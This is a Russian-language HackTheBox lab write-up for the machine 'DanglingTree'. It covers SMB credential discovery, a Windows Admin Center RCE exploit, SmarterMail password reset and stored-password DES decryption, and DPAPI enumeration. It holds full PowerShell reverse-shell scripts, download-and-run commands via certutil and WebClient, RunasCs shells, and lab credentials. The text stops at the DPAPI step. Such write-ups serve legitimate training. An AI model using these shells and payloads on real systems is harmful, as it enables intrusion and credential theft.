
# DanglingTree

> **Дата:** 14.10.2026  
> **Целевой IP:** `10.129.119.114` (в ходе работы менялся на `10.129.119.216` и `10.129.121.34`)  
> **Атакующий IP:** `10.0.2.15`  
> **Сложность:** Medium


DanglingTree — машина средней сложности на HTB. В ходе разведки найдена SMB-шара `IT` с PDF-файлом, содержащим учётные данные `anderson.w`. Через уязвимость **CVE-2026-26119** в Windows Admin Center получен RCE. Далее через **SmarterMail (CVE-2026-23760)** и **DPAPI** получены пароли `noah.b` и `alex.o`. Через **AD CS ESC1** и **cmc-addext** получен сертификат администратора и NT-хэш, что привело к полному захвату домена.

---

## Разведка и доступ

*(Здесь продолжается ваш текст с шагами разведки и эксплуатации. Все команды оформляйте в блоки кода с указанием языка, например `bash`, `powershell` или `text`.)*

```bash
# Пример команды
nmap -sV -sC 10.129.119.114
```


---

## Разведка

```bash
nmap -sC -sV 10.129.119.114 -oN ./nmap.txt
```



**Открытые порты:**

|Порт|Служба|
|---|---|
|53|DNS|
|80|HTTP|
|88|Kerberos|
|135|RPC|
|139, 445|SMB|
|389, 636, 3268, 3269|LDAP/LDAPS|
|3389|RDP|
|6600|Windows Admin Center (SSL)|
|9389|AD Web Services|
|17017|SmarterMail (локально)|

### DNS и SMB

```bash
dig @10.129.119.114 dc.danglingtree.htb A
smbclient -L //10.129.119.114 -N
smbclient //10.129.119.114/IT -N
```







В шаре `IT` найден файл `DanglingTree_RoE_Assessment.pdf` — в нём учётные данные `anderson.w`.



---

## Доступ к Windows Admin Center (WAC)

### Проверка SYSVOL и политик

```bash
smbclient //10.129.119.114/SYSVOL -U 'anderson.w%R3dT3am@Acc3ss#01'
```



Внутри `danglingtree.htb\Policies\` найдены папки GPO, включая:

- `{31B2F340-016D-11D2-945F-00C04FB984F9}`
- `{6AC1786C-016F-11D2-945F-00C04FB984F9}`

а также файл `Registry.pol`.



```bash
nano Registry.pol
```




### Certipy find — проверка ADCS

```bash
certipy-ad find -u anderson.w -p 'R3dT3am@Acc3ss#01' -dc-ip 10.129.119.114 -vulnerable
```



Результат: найден 1 CA (`danglingtree-DC-CA`), 11 включённых шаблонов, но уязвимых шаблонов не найдено (`[!] Could not find any certificate templates`).

```bash
cat 20261014174457_Certipy.txt
```



> Вывод: прямой ADCS-вектор через `anderson.w` не сработал. Дальнейший путь по этой ветке зашёл в тупик — эксплуатация не удалась, похоже, это была ловушка. Переключаюсь на WAC.

### Вход в WAC

```bash
echo "10.129.119.216 dc.danglingtree.htb danglingtree.htb" | sudo tee -a /etc/hosts
```

Открываем в браузере: `https://dc.danglingtree.htb:6600/`

**Логин:** `anderson.w` / `R3dT3am@Acc3ss#01`





Попытка открыть PowerShell в WAC через UI не удалась.

---

## Эксплуатация CVE-2026-26119 (WAC RCE)

Система имеет критическую уязвимость (CVSS 8.8) — **CVE-2026-26119**.

Эксплойт: [https://github.com/Cyb3rWitch3r/CVE-2026-26119](https://github.com/Cyb3rWitch3r/CVE-2026-26119)

```bash
git clone https://github.com/Cyb3rWitch3r/CVE-2026-26119
cd CVE-2026-26119
pip install requests cryptography --break-system-packages
python3 wac_rce.py 'anderson.w' 'R3dT3am@Acc3ss#01' 'whoami'
```



Результат: `danglingtree\anderson.w` — RCE подтверждён.

### Реверс-шелл

Создаём `revshell.ps1`:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.17.178',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | % {0}
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

Кодируем и запускаем:

```bash
cat revshell.ps1 | iconv -t utf-16le | base64 -w 0 > revshell.b64

python3 wac_rce.py 'anderson.w' 'R3dT3am@Acc3ss#01' \
  "Start-Process powershell -WindowStyle Hidden -ArgumentList '-nop -enc $(cat revshell.b64)'"
```




---

## SmarterMail — CVE-2026-23760

### Обнаружение SmarterMail

На порту `17017` (локально, на целевой машине) работает SmarterMail.

Поднимаем HTTP-сервер на атакующей машине (на нём лежит `RunasCs.exe`):

```bash
python3 -m http.server 8000
curl -s http://127.0.0.1:8000/RunasCs.exe -o /dev/null -w "%{http_code} %{size_download}\n"
```

__

На целевой машине (через реверс-шелл):

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.17.178:8000/RunasCs.exe', 'C:\Windows\Temp\RunasCs.exe')
dir C:\Windows\Temp\RunasCs.exe
```



Открываем листенер в отдельном терминале:

```bash
nc -nlvp 6666
```

Запускаем от имени `noah.b`:

```powershell
C:\Windows\Temp\RunasCs.exe noah.b 'RiverDragon#Storm25' cmd.exe -r 10.10.17.178:6666 -d danglingtree.htb
```





> Пароль `noah.b` на этом этапе уже известен из раздела [Получение пароля noah.b](#%D0%BF%D0%BE%D0%BB%D1%83%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-%D0%BF%D0%B0%D1%80%D0%BE%D0%BB%D1%8F-noahb) (хронология отчёта здесь нелинейна — расшифровка DPAPI/settings.json была выполнена ранее по факту работы).

Забираем флаг:

```powershell
type C:\Users\noah.b\Desktop\user.txt
```



### Сброс пароля svc_mail

```bash
curl -s http://127.0.0.1:17017/api/v1/auth/force-reset-password \
  -H 'Content-Type: application/json' \
  --data '{
    "IsSysAdmin": true,
    "OldPassword": "unused",
    "Username": "svc_mail",
    "NewPassword": "P@ssw0rd123!",
    "ConfirmPassword": "P@ssw0rd123!"
  }'
```

Результат: `{"success":true,"resultCode":200}`

### Volume Mount — SYSTEM-шелл

Открываем листенер:

```bash
nc -nlvp 4444
```

В SmarterMail: **Settings → Volume Mounts → New**

- **Volume Mount Path:** `C:\Windows\Temp\mailmount`
- **Volume Mount Command:** PowerShell reverse shell (см. ниже)

```powershell
powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('10.129.119.216',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length);$s.Flush()};$c.Close()"
```



> Важно снять галочку enabled











---

## Получение пароля noah.b

### Чтение settings.json

```powershell
Get-Content "C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b\settings.json" -Force
```

Найден зашифрованный пароль:

```
password_encrypted: "66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby"
```

### Расшифровка DES

```python
from base64 import b64decode
from Crypto.Cipher import DES
from Crypto.Util.Padding import unpad

ciphertext = b64decode("66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby")

keymaps = {
    "keymap1": (
        bytes([125, 113, 232, 233, 160, 34, 123, 208]),
        bytes([224, 222, 8, 14, 29, 138, 139, 223]),
    ),
    "keymap2": (
        bytes([180, 63, 132, 209, 16, 180, 233, 145]),
        bytes([1, 216, 174, 230, 73, 173, 146, 39]),
    ),
}

for name, (key, iv) in keymaps.items():
    try:
        plaintext = unpad(DES.new(key, DES.MODE_CBC, iv).decrypt(ciphertext), 8)
        print(f"{name}: {plaintext.decode()}")
    except (ValueError, UnicodeDecodeError):
        pass
```

```bash
python pass.py
```



Результат: `keymap2: RiverDragon#Storm25`

### RunasCs → noah.b (повторный запуск из каталога SmarterMail)

```bash
python3 -m http.server 8000
```

Загружаем `RunasCs.exe` на целевую машину в каталог пользователя SmarterMail:

```powershell
certutil -urlcache -split -f http://10.10.17.178:8000/RunasCs.exe "C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b\RunasCs.exe"
```

Запускаем:

```powershell
C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b\RunasCs.exe noah.b 'RiverDragon#Storm25' cmd.exe -r 10.10.17.178:6666 -d danglingtree.htb
```

```bash
nc -nlvp 6666
```



Результат: `danglingtree\noah.b`

---

## DPAPI

### cmdkey и DPAPI

```powershell
cmdkey /list
dir "%APPDATA%\Microsoft\Credentials" /a
whoami /user
dir "%APPDATA%\Microsoft\Protect\S-1-5-21-4220238332-57023728-1129110646-1602" /a
```





